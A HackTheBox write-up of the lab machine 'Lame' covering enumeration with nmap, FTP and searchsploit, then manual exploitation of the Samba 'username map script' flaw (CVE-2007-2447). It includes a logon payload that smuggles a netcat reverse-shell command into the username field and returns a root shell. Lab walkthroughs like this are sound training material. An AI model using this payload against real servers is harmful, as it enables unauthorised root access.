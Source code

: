 ```yaml
---
layout: post
title:  "HackTheBox - Lame Writeup"
categories: [HackTheBox]
tags: []
draft: false
---
```


# Introduction

This is a writeup for the machine "Lame" (10.10.10.3) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 03:04 GMT
Nmap scan report for 10.10.10.3
Host is up (0.026s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-01-24T19:05:12-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see, we have a few ports open here, however, ftp grabs my attention straight away as we have a line `ftp-anon: Anonymous FTP login allowed (FTP code 230)` this basically means we can login with the username `anonymous` and pretty much any password, so let's try logging in with FTP and seeing what we can find.

### FTP

In order to login anonymously we can just use `ftp 10.10.10.3` then we will be prompted for a username, it is important you use `anonymous` as the username and you can just press enter for the password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:linxz): anonymous
331 Please specify the password.
Password:
230 Login successful.
```  

As you can see we can login just fine with this, now let's take a look around and try to find some files, etc. Firslty we'll do a pwd to see where we are on the file system and see if we have any files in our current directory.

```
ftp>
ftp> pwd
257 "/"
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

So, looks like this is pretty empty so I guess this is not the correct attack route I suppose. So we'll focus on the Samba side of things now, it is worth noting, that vsFTPD 2.3.4 has a backdoor vulnerability, I did not mention this before but if you use `searchsploit` and `vsftpd 2.3.4` you will see the vulnerability I am talking about.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                             | exploits/unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------- ----------------------------------
```

However, what we just attempted is basically doing exactly what the Metasploit module would do so we don't need to use the Metasploit module. The point is, it is always a good habit to do a Searchsploit on the versions of software.

### Samba

We know that Samba is running so let's try to attack this - as I mentioned it is always a good idea to use Searchsploit on version numbers you get, in this case from our nmap scan we know that the version is `3.0.20-Debian` so we'll do a Searchsploit on this, dropping the `debian` though else Searchsploit might not find it.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                   | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                              | exploits/linux/remote/7701.txt
```

There also appears to be a Remote Heap Overflow here however, we won't try that unless the Username map script does not work, this is because it will be a little harder to actually exploit so we'll stick with the "Username Map Script" exploit first. Interetingly, I already knew about this exploit as I [made a post](https://linxz.co.uk/vulnerabilities/2018/11/14/Samba-username-map-script.html) about it previously.

## Exploitation

So, it looks like this box is vulnerable to CVE2007-2447. Let's exploit this, however, we're not going to use Metasploit as this is really easy to exploit manually and will help us with concepts such as reverse shells & just getting used to the exploitation process if we don't have Metasploit available.

Firstly we need to see what shares are available, we can do this using `smbclient -L //10.10.10.3/`

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient -L //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

As you can see in the above, we have `opt` & `tmp` let's try and connect to `tmp` with an anonymous login, in order to do this you can just use `smblclient //10.10.10.3/tmp` and hit enter to send a blank password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \>
```

Now that we've logged into the share, we want to actually exploit this vulnerability, if you want to understand how it works you can go and read my post that I linked earlier as I'm not going to explain the exploit here.

So firstly we're going to use netcat to create a listener on our device, this can be done with `nc -nvlp 4444` once we have the listener running we're going to send the following payload into the device.

```
smb: \> logon "./=`nohup nc 10.10.14.2 4444 -e /bin/bash`"
Password:
```

If you hit enter at the password prompt you should then see a connection back into your listener, you now have a shell! It is time for privilege escalation! Well, usually it would be time for privilege escalation however we actually get a root account straight away on this box so we don't need to do any kind of privilege escalation.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ netcat -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.10.3 43316 received!
whoami
root
```

Now we can just go and get the user flag from the users desktop and the root flag, submit them and we're done with the box! As I said, if you'd like to understand how the exploit works a little more you can go and read my post on it!
